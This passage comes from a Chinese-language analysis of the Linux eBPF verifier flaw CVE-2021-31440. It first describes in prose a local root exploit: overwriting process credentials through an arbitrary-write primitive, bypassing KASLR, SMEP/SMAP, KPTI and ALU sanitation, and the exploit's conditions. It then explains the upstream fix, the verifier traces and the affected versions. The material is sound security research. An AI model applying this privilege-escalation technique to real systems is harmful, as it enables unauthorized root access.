**步骤二：覆盖凭证**。在获得当前进程的 `task_struct` 地址后，从其固定偏移（`0xad8`）处读取 `cred` 指针。随后使用任意写原语（通过 `bpf_update_elem` 操作 `write_map`），依次将 `cred` 结构体前 8 个 4 字节字段（`uid`、`gid`、`euid`、`egid`、`fsuid`、`fsgid`、`securebits`、`cap_inheritable`）清零。清零完成后，当前进程的有效用户 ID 变为 0，随后执行 `execve("/bin/sh")` 启动 root shell。

### 6-5. 整体流程

完整的利用流程可用以下泳道图表示，清晰展示双 Map 架构下的数据流与控制流：



从图中可以清晰地看到，整个流程分为两个阶段：前期（符号扫描之前）完全依赖 `ctrl_map` 的读原语进行信息收集；后期（安装伪造函数表之后）写原语被激活，但读原语依然可用，二者处于并行状态。这种架构设计使得流程执行到后期时，如果需要额外的信息读取（例如验证写入结果或读取其他内核结构），无需任何额外恢复操作即可直接进行。

### 6-6. 内核保护机制应对策略

本章针对 v5.11.8 至 v5.11.16 版本区间的特定保护状态设计了以下应对策略：

- **KASLR**：通过泄露 `array_map_ops` 指针计算内核基址，完全抵消地址随机化的影响。
- **SMEP/SMAP**：所有指针均指向内核内存，且不执行用户态代码，因此这两项防护不会造成阻碍。
- **KPTI**：利用系统调用和 BPF 辅助函数从内核上下文访问内存，不受 KPTI 隔离影响。
- **ALU Sanitation（整数溢出修复后）**：虽然 `commit 10d2bb2e6b1d8c` 修复了 `alu_limit` 整数溢出漏洞，但预偏移绕过模型（先加 `0x1000` 再减去等量偏移）仍然有效。其原理已在第二章第七节第一小节中详细阐述——当 `alu_limit = 0x1000` 时，分歧寄存器乘以 `0x1000` 后恰好等于 `alu_limit`，不满足 `> alu_limit` 条件，因此 ALU Sanitation 的清零逻辑不被触发。
- **Map 类型检查**：通过将 `write_map->map.map_type` 设置为 `BPF_MAP_TYPE_STACK`（`0x17`），并将 `max_entries` 设为 `-1`，绕过内核中对 `map_push_elem` 调用时的类型和边界检查。
- **伪造函数表**：通过从内核读取真实的 `array_map_ops` 并仅替换 `map_push_elem` 指针，最大程度保持伪造表的合法性，减少被内核其他检查逻辑拒绝的风险。

### 6-7. 利用条件与局限性

#### 6-7-1. 必要条件

成功利用需满足以下条件：

1. **内核版本**：v5.11.8 至 v5.11.16（含），且未应用补丁 `10bf4e83167c`。该区间内 ALU Sanitation 的整数溢出漏洞已被修复但预偏移绕过仍然有效。v5.11.8 之前的版本可利用更简单的整数溢出绕过，v5.11.17 之后的版本预偏移模型失效。
2. **BPF 子系统启用**：内核编译时开启 `CONFIG_BPF_SYSCALL` 及相关选项，并允许非特权用户加载 eBPF 程序（即 `kernel.unprivileged_bpf_disabled` 为 0）。
3. **Map 尺寸要求**：两个 Map 的 `value_size` 必须大于 `0x1000`，以满足预偏移绕过模型对 Map 尺寸的要求。
4. **符号偏移已知**：需要预先知道 `ARRAY_MAP_OPS`、`ARRAY_MAP_GET_NEXT_KEY` 以及符号表段地址等关键符号在内核映像中的偏移。

#### 6-7-2. 局限性

- **版本区间较窄**：仅影响 v5.11.8 至 v5.11.16，在此之前的版本可利用更简单的整数溢出绕过，在此之后的版本预偏移模型失效，需采用其他技术手段。
- **双 Map 依赖**：方案需要同时管理两个 Map，增加了触发逻辑的复杂度和出错概率。任意一个 Map 的状态异常都可能导致整个流程失败。
- **伪造函数表依赖内核读取**：需要从内核中读取 `array_map_ops` 的完整内容作为伪造表的基础，若任意读原语在伪造前失效则无法完成伪造。
- **写操作粒度限制**：任意写原语仅支持 4 字节写入，对于需要写入 8 字节或更大块的数据，需循环调用并小心处理边界和对齐。
- **非特权限制**：如果 `kernel.unprivileged_bpf_disabled` 设为 1，则非 root 用户无法加载 eBPF 程序，需先获取 `CAP_BPF` 能力或通过其他途径绕过。
- **JIT 依赖性**：虽然漏洞本身不依赖 JIT，但本方案中验证器的常量折叠行为在解释器模式下可能有所不同，需提前确认目标内核的 BPF JIT 配置。

### 6-8. 总结

本章针对 v5.11.8 至 v5.11.16 这一特定内核版本区间，设计了一套完整的利用方案。该方案与第五章的主要差异体现在三个方面：

1. **双 Map 架构**：将控制功能与写入功能分离，避免单一 Map 的状态污染，同时保证读/写原语的独立性。这种设计使得伪造函数表安装后，读操作仍可正常使用，而不会因 `map->ops` 被替换而失去读取能力。这一差异的本质原因在于本版本区间的写原语需要通过永久性地修改 Map 状态来实现，而读原语依赖的是不同的字段（`map->btf`），因此必须将两者置于独立的 Map 中。

2. **独立的读写原语**：读操作利用 `btf` 指针覆盖配合 `bpf_map_get_info_by_fd` 实现，写操作利用伪造函数表配合 `bpf_update_elem` 实现，二者互不干扰，可交替使用，提高了利用的灵活性。与第五章的读写原语相比，本章的读原语需要额外的系统调用（`bpf_map_get_info_by_fd`）来获取结果，而写原语则需要预先从内核读取真实的函数表作为伪造基础。

3. **预偏移绕过 ALU Sanitation**：针对 `alu_limit` 整数溢出已被修复的版本，采用先加 `0x1000` 再减的预偏移模型，使 `alu_limit` 变为非零值从而绕过检查。这一绕过手段依赖于分歧寄存器乘以 `0x1000` 后恰好等于 `alu_limit` 这一临界条件——若 `alu_limit` 取值不同或分歧值不同，则需要调整偏移量以匹配。

此外，本章在分歧寄存器构造上展示了与第五章不同的技术路径——使用魔术值 `2` 而非 `0x180000000`。这并非因为后者被任何保护机制拦截，而是为了展示同一漏洞在不同构造方式下的适应性与多样性。ALU Sanitation 机制不识别特定数值，两种魔术值在该版本区间内均可正常工作。采用不同的构造方式有助于加深对漏洞本质的理解，并为应对可能的变化提供参考。

从内核安全演进的角度看，v5.11.8 至 v5.11.16 恰好处于一个过渡期：`commit 10d2bb2e6b1d8c` 封堵了低垂的果实（整数溢出），但尚未引入 `commit 7fedb63a8307` 中更为彻底的 ALU Sanitation 重构（常量寄存器替换和 `alu_limit` 计算方式改变）。这一区间为研究 ALU Sanitation 机制的演进脉络提供了一个独特的观察窗口——开发者修复了一个显性漏洞，却为另一种绕过方式留下了空间，直到后续版本才彻底封堵。

实际部署时，需注意 Map 尺寸和符号偏移的正确性，并在触发前充分测试目标内核的版本和补丁状态，以避免因版本判断错误而导致流程在早期阶段失败。两个 Map 的创建顺序、值区域的布局以及伪造函数表在 `ctrl_buffer` 中的存放位置均需要与 BPF 程序中的偏移计算严格对应，任何偏差都可能导致越界指针构造失败或原语失效。

### 6-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 7. 漏洞修复

**CVE-2021-31440** 的修复方案由 Daniel Borkmann 于 2021 年 4 月 23 日提交，补丁 commit 为 [10bf4e83167c](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=10bf4e83167cc68595b85fd73bb91e8f2c086e36)。该补丁于 2021 年 4 月 27 日合并进入主线内核，并随后向后移植到各个稳定分支。补丁的完整 diff 如下：

```diff
diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index 637462e9b6ee9..9145f88b2a0a5 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -1398,9 +1398,7 @@ static bool __reg64_bound_s32(s64 a)

 static bool __reg64_bound_u32(u64 a)
 {
-	if (a > U32_MIN && a < U32_MAX)
-		return true;
-	return false;
+	return a > U32_MIN && a < U32_MAX;
 }

 static void __reg_combine_64_into_32(struct bpf_reg_state *reg)
@@ -1411,10 +1409,10 @@ static void __reg_combine_64_into_32(struct bpf_reg_state *reg)
 		reg->s32_min_value = (s32)reg->smin_value;
 		reg->s32_max_value = (s32)reg->smax_value;
 	}
-	if (__reg64_bound_u32(reg->umin_value))
+	if (__reg64_bound_u32(reg->umin_value) && __reg64_bound_u32(reg->umax_value)) {
 		reg->u32_min_value = (u32)reg->umin_value;
-	if (__reg64_bound_u32(reg->umax_value))
 		reg->u32_max_value = (u32)reg->umax_value;
+	}

 	/* Intersecting with the old var_off might have improved our bounds
 	 * slightly.  e.g. if umax was 0x7f...f and var_off was (0; 0xf...fc),
diff --git a/tools/testing/selftests/bpf/verifier/array_access.c b/tools/testing/selftests/bpf/verifier/array_access.c
index 1b138cd2b187d..1b1c798e92489 100644
--- a/tools/testing/selftests/bpf/verifier/array_access.c
+++ b/tools/testing/selftests/bpf/verifier/array_access.c
@@ -186,7 +186,7 @@
 	},
 	.fixup_map_hash_48b = { 3 },
 	.errstr_unpriv = "R0 leaks addr",
-	.errstr = "invalid access to map value, value_size=48 off=44 size=8",
+	.errstr = "R0 unbounded memory access",
 	.result_unpriv = REJECT,
 	.result = REJECT,
 	.flags = F_NEEDS_EFFICIENT_UNALIGNED_ACCESS,
```

### 7-1. 补丁的动机

补丁的提交信息清晰地阐述了修复的必要性：

> Similarly as b02709587ea3 ("bpf: Fix propagation of 32-bit signed bounds from 64-bit bounds."), we also need to fix the propagation of 32 bit unsigned bounds from 64 bit counterparts. That is, really only set the `u32_{min,max}_value` when **both** `{umin,umax}_value` safely fit in 32 bit space.

这一修复与之前针对有符号边界的补丁 `b02709587ea3` 形成对称——两者均旨在纠正 Verifier 在跨位宽边界传播时的错误假设。提交信息中给出了一个具体的错误案例：

> For example, the register with a `umin_value == 1` does **not** imply that `u32_min_value` is also equal to 1, since `umax_value` could be much larger than 32 bit subregister can hold, and thus `u32_min_value` is in the interval `[0,1]` instead.

当 64 位范围为 `[1, 2^64-1]` 时，其低 32 位的实际取值范围是 `[0, 2^32-1]`（全范围），而非 `[1, 2^32-1]`。原先的独立检查逻辑错误地将 `u32_min_value` 固定为 1，而修复后的联合检查正确地识别出 `umax_value` 超出 32 位范围，因此不更新 32 位边界，保留了保守的全范围 `[0, U32_MAX]`。

### 7-2. 补丁内容详解

补丁主要包含三处改动：

**1. 简化 `__reg64_bound_u32()` 辅助函数（代码风格优化）**

将原有的 if-return 分支简化为单行返回表达式。此改动属于代码风格优化，不改变函数逻辑，仅使代码更加简洁统一。

**2. 修复无符号 32 位边界同步逻辑（核心修复）**

缺陷函数 `__reg_combine_64_into_32()` 的修复将原先**独立**的两个 `if` 条件合并为**联合**条件：

- **修复前**：分别检查 `umin_value` 和 `umax_value` 是否在 32 位范围内，各自独立更新 `u32_min_value` 和 `u32_max_value`。这种独立检查允许出现 `umin_value` 在范围内而 `umax_value` 超出范围的情形，导致 `u32_min_value` 被更新为非零值而 `u32_max_value` 保持 `U32_MAX`，产生 `u32_min_value > u32_max_value` 的矛盾状态。
- **修复后**：仅当 **`umin_value` 和 `umax_value` 同时**落在 32 位无符号范围内时，才更新 32 位边界。这一改动确保了 32 位边界的推导与 64 位边界的一致性——只有整个 64 位区间完全包含在 32 位值域内时，才能安全地进行截断映射。

**3. 更新 BPF 自测试用例的预期错误信息**

`tools/testing/selftests/bpf/verifier/array_access.c` 中的测试用例预期错误信息从 `"invalid access to map value, value_size=48 off=44 size=8"` 变更为 `"R0 unbounded memory access"`。这一变更反映了修复后 Verifier 对越界访问的检测更加准确——原先被误判为“非法偏移访问”的情况，现在被正确识别为“无界内存访问”。测试用例的更新确保了回归测试能够有效捕获类似的缺陷再次引入。

### 7-3. 修复前后状态对比

提交信息中给出了修复前后 Verifier 状态跟踪的对比，清晰地展示了修复效果：

**修复前（错误跟踪）**：

```
9: R2=inv(id=0,smin_value=-9223372036854775807,smax_value=9223372032559808513,
        umin_value=1,umax_value=18446744069414584321,
        var_off=(0x1; 0xffffffff00000000),
        s32_min_value=1,s32_max_value=1,u32_max_value=1)
10: (bc) w2 = w2
    R2_w=inv1
```

Verifier 错误地认为 `u32_min_value = 1` 且 `u32_max_value = 1`，将寄存器判定为常量 1，从而为后续的越界访问敞开了大门。

**修复后（正确跟踪）**：

```
9: R2=inv(id=0,smax_value=9223372032559808513,
        umax_value=18446744069414584321,
        var_off=(0x0; 0xffffffff00000001),
        s32_min_value=0,s32_max_value=1,u32_max_value=1)
10: (bc) w2 = w2
    R2_w=inv(id=0,umax_value=1,var_off=(0x0; 0x1))
```

Verifier 正确地将 `s32_min_value` 设为 0，`s32_max_value` 设为 1，`var_off` 的低 32 位为 `(0x0; 0x1)`，准确反映了寄存器的实际取值范围。这一修正使得后续的边界检查能够正确识别潜在的无界访问。

### 7-4. 影响范围

该补丁影响以下内核版本：

- **引入版本**：v5.7（commit `3f50f132d840`，“bpf: Verifier, do explicit ALU32 bounds tracking”）
- **修复版本**：v5.11.21（commit `10bf4e83167c`）
- **受影响的稳定分支**：v5.10.y、v5.11.y 等长期支持版本均需要此补丁

补丁于 2021 年 4 月 27 日合并进入主线内核。各主要发行版在 2021 年 5 月至 6 月间陆续完成了补丁的向后移植和发布。对于无法立即升级的系统，可以通过禁用 BPF 或限制非特权用户加载 BPF 程序来缓解风险。

### 7-5. 后续改进

值得注意的是，`commit 10bf4e83167c` 虽然修复了正确性问题，但后续的 BPF 开发工作中发现该修复在某些边界条件下可能过于保守。后续补丁（如 `b9979db83401`，“bpf: Fix propagation of bounds from 64-bit min/max into 32-bit and var_off”）在此基础上进一步优化了边界传播的精度。这反映了 eBPF Verifier 作为静态分析工具持续演进的特点——每一次修复都可能在新的上下文中暴露出新的边界情况，需要迭代式的完善。

### 7-6. 总结

**CVE-2021-31440** 的修复体现了 eBPF Verifier 开发中的一个重要教训：**跨位宽边界同步必须采用联合检查而非独立检查**。有符号边界的正确实现在之前的 commit `b02709587ea3` 中已经采用了联合检查，而无符号边界因遗漏了同样的检查而产生了漏洞。修复方案统一了两类范围的推导逻辑，从根源上消除了 64 位范围与 32 位范围之间的边界分歧。

这一案例也表明，Verifier 中任何看似微小的边界条件逻辑偏差，都可能导致寄存器的抽象状态与实际运行时语义不符。修复措施虽已消除本漏洞的根源，但 eBPF 安全博弈的持续演进表明，彻底消除这类漏洞需要更加系统的形式化验证与设计方法。从更广的视角来看，该漏洞的发现与修复也为 Verifier 中其他类似的边界传播逻辑提供了审查的参照——确保有符号与无符号边界、32 位与 64 位边界在所有场景下均采用一致的推导规则，是构建可靠静态分析工具的基础。

## 8. 免责声明

本文档旨在提供 **CVE-2021-31440** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 5.11.20 和 Linux 5.11.16）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2021-31440_V2
- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2021-31440_V3
- https://binracer.github.io/2026/05/16/KernelExploit-CVE-2021-3490/
- https://github.com/tr3ee/CVE-2022-23222/blob/master/exploit.c
- https://bsauce.github.io/2021/06/09/CVE-2021-31440/
- https://man7.org/linux/man-pages/man2/bpf.2.html
- https://openwall.com/lists/oss-security/2022/01/18/2
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=3f50f132d8400e129fc9eb68b5020167ef80a244
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=10bf4e83167cc68595b85fd73bb91e8f2c086e36
- https://nvd.nist.gov/vuln/detail/CVE-2021-31440
- https://ubuntu.com/security/CVE-2021-31440
